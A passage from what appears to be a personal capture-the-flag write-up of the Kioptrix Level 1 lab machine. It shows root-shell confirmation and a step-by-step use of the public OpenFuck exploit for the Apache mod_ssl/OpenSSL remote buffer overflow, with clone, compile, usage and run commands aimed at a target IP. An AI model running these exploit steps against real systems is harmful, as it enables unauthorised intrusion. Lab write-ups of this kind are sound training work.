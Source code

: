 check if you got a shell
```bash
$ whoami  - Check the present user
root
$ hostname - check hostname
kioptrix.level1
```

**Done You have got a shell!**


## OpenLuck - Method Two
We will use a github repository which contain exploit for the **"Apache mod_ssl< 2.8.7 OpenSSL - Remote Buffer Overflow"**

```
git clone https://github.com/heltonWernik/OpenFuck.git

```
Install ssl-dev library

```
apt install libssl-dev
cd OpenFuck

```
Compile  OpenFuck.c

```
gcc -o OpenFuck OpenFuck.c -lcrypto
```
Usage : 
```
./OpenFuck [Target] [Box] [port] [-c N]

| Target - Supported Box eg: 0x00
| Box - hostname or IP Address
| port - port for ssl connection
| -c open N connection (Use Range 40-50 if you don't know)
```
Run

```
 ./OpenFuck  0x6b 192.***.**.** -c 40
```

**And we'll get a shell!**

Learned so many things doing this.yeah even though it's an easy machine i felt kind of diffcult trying to do it by myself so i did pause and saw how heath is doing in his videos and also some other peoples writeups helped me to get more knowledge about what all the thing's im doing

I didn't take screen shots while doing this thing .

I'll be putting screenshots for other machines📷


**Have fun guys! and yeah i like coffee too ☕** 

```
1 Down 5 to go
```


